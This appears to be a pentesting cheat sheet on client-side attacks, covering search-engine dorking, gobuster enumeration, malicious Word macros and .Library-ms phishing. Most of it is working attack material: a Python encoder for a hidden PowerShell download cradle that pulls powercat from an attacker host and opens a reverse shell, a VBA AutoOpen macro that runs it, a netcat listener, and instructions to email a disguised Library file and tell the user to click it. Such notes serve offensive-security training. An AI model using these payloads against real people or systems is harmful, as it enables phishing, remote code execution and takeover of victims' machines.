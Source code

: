 # Client-side attacks

## Dorking

Passive: 
- browser: `site:www.site-to-hack.com filetype:pdf`
- cli: `kali$ firefox --search "Microsoft Edge site:exploit-db.com`, `inurl:`, `intext:`, `intitle:`
Gobuster: 
- `gobuster dir -x pdf -u $TargetIp -w /usr/share/wordlist/dirb/common.txt`
- `gobuster dir -x .pdf, .txt -u $TargetIp -w /usr/share/wordlist/dirb/big.txt`
Exiftool: `exiftool -a -u somefile.pdf`

## Macros

### Word

Start a listener:
```
kali$ nc -lnvp $AttackerPort
```
base64 encode a PowerShell reverse shell, or a download cradle for [PowerCat](https://github.com/besimorhino/powercat):
```
import base64

text = "IEX(New-Object System.Net.WebClient).DownloadString('http://$AttackerIp/powercat.ps1');powercat -c $AttackerIp -p $AttackerPort -e powershell"

payload = base64.b64encode(bytes(text, 'utf-16-le')).decode('utf-8') # WARNING: Windows uses UTF-16-LE encoding...

print("PowerCat cradle:", text)
print("Payload, base64 utf-16-le encoded:", payload)

n = 50 

print("Str = \"powershell.exe -nop -w hidden -e \"")
for i in range(0, len(payload), n):
    print("Str = Str + " + '"' + payload[i:i+n] + '"')
```
embed it in Word macro:
```
Sub AutoOpen()
  MyMacro
End Sub
Sub Document_Open()
  MyMacro
End Sub
Sub MyMacro()
  '-----
  'CreateObject("Wscript.Shell").Run "powershell"
  '-----
  Dim Str As String
  Str = "powershell.exe -nop -w hidden -enc "
  Str += Str + "some"
  Str += Str + "long"
  Str += Str + "base64"
  Str += Str + "utf-16-le"
  Str += Str + "string"
  CreateObject("Wscript.Shell").Run Str
End Sub
```
and start an http server:
```
kali$ python3 -m http.server 80
```

### Library files

#### Webdav shares

Install and run a Webdav share:
```
kali$ sudo apt-get install python3-wsgidav
kali$ wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /path/to/webdav/share/
```

#### Extension `.Library-ms`

Make a `myautomatedfakeinstalltofoolsomeuser.Library-ms` file pointing to the Webdav share on Kali, send it by mail and tell the user to click it. \
In the Webdav share, prepare a reverse shell. For example with [PowerCat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1) in a `.lnk` file:
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://myip:myhttpport/powercat.ps1');powercat -c myip -p myncport -e powershell"
```
Instead of sending the Library file by email, it can be shared by Samba:
```
smbclient //$TargetIp/$TargetSharedDirectory -c 'put myautomatedfakeinstalltofoolsomeuser.Library-ms'
```


